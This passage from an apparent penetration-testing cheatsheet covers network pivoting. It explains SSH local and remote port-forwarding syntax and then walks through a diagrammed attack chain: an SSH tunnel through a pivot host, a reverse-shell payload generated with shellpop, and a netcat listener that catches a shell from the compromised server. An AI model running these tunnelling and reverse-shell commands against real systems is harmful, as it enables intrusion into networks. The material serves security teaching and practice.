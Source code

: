 # Pivoting

* [PayloadsAllTheThings/Network Pivoting Techniques.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)
* [https://www.programmersought.com/article/93593867459/](https://www.programmersought.com/article/93593867459/)
* [https://xakep.ru/2020/09/08/windows-pivoting/](https://xakep.ru/2020/09/08/windows-pivoting/)

## SSH

* [https://habr.com/ru/post/331348/](https://habr.com/ru/post/331348/)

### Local vs Remote Port Forwarding

A cheatsheet for SSH Local/Remote Forwarding command syntax:

* `-L 1111:127.0.0.1:2222`: the traffic is forwarded _from SSH client via SSH server_, so `1111` is listening on _client-side_ and traffic is sent to `2222` on _server-side_.
* `-R 2222:127.0.0.1:1111`: the traffic is forwarded _from SSH server via SSH client_, so `2222` is listening on _server-side_ and traffic is sent to `1111` on _client-side_.

Consider the following example. An attacker has root privileges on Pivot1. He creates the first SSH tunnel \(remote port forwarding\) to interact with a vulnerable web server on Pivot2. Then he exploits the vulnerability on Pivot2 and triggers it to connect back to Attacker via a reverse-shell \(firewall is active, so he needs to pivot through port 443, which is allowed\). After that the attacker performs PE on Pivot2 and gets root. Then he creates another tunnel \(local port forwarding\) over the first one to SSH into Pivot2 from Attacker. Finally, he forwards port 80 over two existing hops to reach another vulnerable web server on Victim.

```text
  Attacker (10.10.13.37)                                                    Pivot1 (10.1.1.1)                                  Pivot2 (10.2.2.2)                   Victim (10.3.3.3)
┌──────────────────────────────────────────────────────────────────────┐  ┌───────────────────────────────────────────────┐  ┌────────────────────────────────┐  ┌───────────────────┐
│                                                                   22 │  │                                               │  │                                │  │                   │
│ 1.  ssh -R 443:127.0.0.1:9001 root@10.1.1.1 ------------------------------► 10.1.1.1:22                                 │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 2.                                                                   │  │   Listens 0.0.0.0:443 ("GatewayPorts yes")    │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 3.                                                                   │  │   ~C ssh> -L 9002:10.2.2.2:80                 │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 4.  Listens 127.0.0.1:9002 (to interact with web server 10.2.2.2:80) │  │                                               │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 5.  shellpop -H 10.2.2.2 -P 443 --reverse --number 8 --base64        │  │                                               │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│                                                9001 over 10.1.1.1:22 │  │                                           443 │  │                                │  │                   │
│ 6.  rlwrap nc -lvnp 9001 ◄--- 127.0.0.1:9001 ◄----------------------------- 0.0.0.0:443 ◄───────────────────────────────┼──┼── Web server 10.2.2.2:80       │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 7.  Got shell from 10.2.2.2                                          │  │                                               │  │                                │  │                   │
```